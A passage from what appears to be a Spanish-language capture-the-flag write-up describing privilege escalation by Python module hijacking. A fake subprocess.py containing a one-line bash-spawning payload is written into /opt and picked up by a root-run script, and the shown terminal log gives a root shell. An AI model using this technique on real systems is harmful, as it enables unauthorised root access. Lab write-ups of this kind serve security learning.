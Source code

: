 Cuando un script en Python importa un módulo, **primero busca en el directorio actual** antes de buscar en los módulos del sistema. Si colocamos un archivo llamado `subprocess.py` en el mismo directorio (`/opt`), Python lo importará **en lugar del módulo original**, ya que se encuentra en la ruta de búsqueda primero.

Esto nos permite inyectar código malicioso, ya que `paw.py` se ejecuta con permisos de root.

### Obstáculo: No había acceso a editores interactivos

Al intentar usar `nano` o `vim`, obtuvimos errores como:

```bash
Standard input is not a terminal
```

Esto indicaba que la shell no era completamente interactiva, por lo que no podíamos editar archivos de forma tradicional. Usamos una técnica alternativa.

## Explotación

Creamos un archivo `subprocess.py` malicioso en `/opt`, que simplemente abría una shell como root:

```python
echo 'import os; os.system("/bin/bash")' > /opt/subprocess.py
```

Este archivo se carga automáticamente cuando `paw.py` intenta hacer `import subprocess`.

## ¿Por qué funcionó?

Python cargó **nuestro `subprocess.py` falso** en lugar del original. Al ejecutarse el script con permisos de root usando `sudo`, también se ejecutó **nuestro código con permisos de root**, dándonos una shell privilegiada:

```bash
luisillo@2af585ee55bb:/opt$ echo 'import os; os.system("/bin/bash")' > /opt/subprocess.py
echo 'import os; os.system("/bin/bash")' > /opt/subprocess.py
luisillo@2af585ee55bb:/opt$ sudo -u root /usr/bin/python3 /opt/paw.py
sudo -u root /usr/bin/python3 /opt/paw.py
whoami
root
```

## Limpieza

El script fallaba con este error antes de la explotación:

```bash
FileNotFoundError: [Errno 2] No such file or directory: 'echo Hello!'
```

Esto se debe a que la línea:

```bash
subprocess.run(['echo Hello!'], check=True)
```
